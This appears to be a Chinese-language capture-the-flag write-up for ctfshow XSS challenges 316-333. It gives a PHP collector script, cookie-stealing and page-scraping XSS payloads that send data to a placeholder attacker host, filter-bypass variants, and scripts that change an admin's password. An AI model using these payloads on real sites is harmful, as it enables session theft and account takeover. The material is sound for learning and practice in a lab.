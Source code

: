 ```yaml
---
title: ctfshow-xss
id: ctfshow-xss
---
```


<!-- more -->

xss平台：
[XSS平台-免费XSS平台 (xsshs.cn)](https://xsshs.cn/xss.php?do=login)
[XSS平台 - （支持http/https）XSS Platform](https://xss.pt/xss.php?do=login)

## 316

xss平台直接的payload贴进去就行

也可以用vps来拿：

开启vps的http服务(我用的是kali)：

```sh
service apache2 start
# 关闭用stop
service apache2 stop
```

然后写个php来将flag存在本地里，要注意的是要给tmp目录可写权限，不然是写不进去的

```php
<?php

$content = $_GET[1];
if(isset($content)){
        file_put_contents('tmp/flag.txt',$content);
}else{
        echo 'no date input';
}
```

然后传payload就行：

```html
<script>document.location.href='http://xxx/a.php?1='+document.cookie</script>
```



## 317-319

```html
<body onload="window.location.href='http://xxx/a.php?1='+document.cookie"></body>
```



## 320-326

过滤空格和xss，可以用`/`绕过

```html
<body/onload="window.location.href='http://yours-ip/a.php?1='+document.cookie"></body>
```

## 327

![](https://i.loli.net/2021/09/04/bLjMsCdUBQ3Yryw.png)
还是上面的payload，收件人要填admin来让机器人点击

## 328

登录注册，还有个页面提示只有管理员可以查看各个用户的用户名和密码
那么可以直接拿管理员的cookie，然后修改cookie伪造为管理员登录进行查看

在注册页面的密码处插入xss代码，等管理员点击用户管理页面就能触发存储xss
ps：这里body用不了了--改回script就可以

```html
<script>document.location.href='http://yours-ip/a.php?1='+document.cookie</script>
```



## 329

cookie用不了，不过因为可以执行js，可以爬整个html源码下来

```js
var img = new Image();
img.src = 'http://yours-ip/a.php?1='+document.getElementsByTagName('html')[0].innerHTML;
document.body.append(img);
```

```html
<script src="http://yours-ip/a.js"></script>
```

或者省略点根据html定位只取用户名和密码，也可以遍历定位ctfshow{xxx}都行

```js
document.querySelector('#top > div.layui-container').textContent;
```

## 330

要注意的是这里的插入点是注册的用户名
可以让管理员修改它的密码

```js
<script>window.location.href='http://127.0.0.1/api/change.php?p=123';</script>
```

也可以延续上题的做法继续爬源码
(就会发现表单里的用***加密了
flag出现在admin用户名旁)

## 331

可以在url/js/select.js找到post的js代码，修改一下，如下：

```js
<script>$.ajax({url:'api/change.php',type:'post',data:{p:'123'}});</script>
```

将管理员密码修改登录即可

## 332

让admin给自己转钱：
![](https://i.loli.net/2021/09/04/aoTAX2QfhYdpK3w.png)
再去购买flag

## 333

自己给自己转钱，bp跑一下就好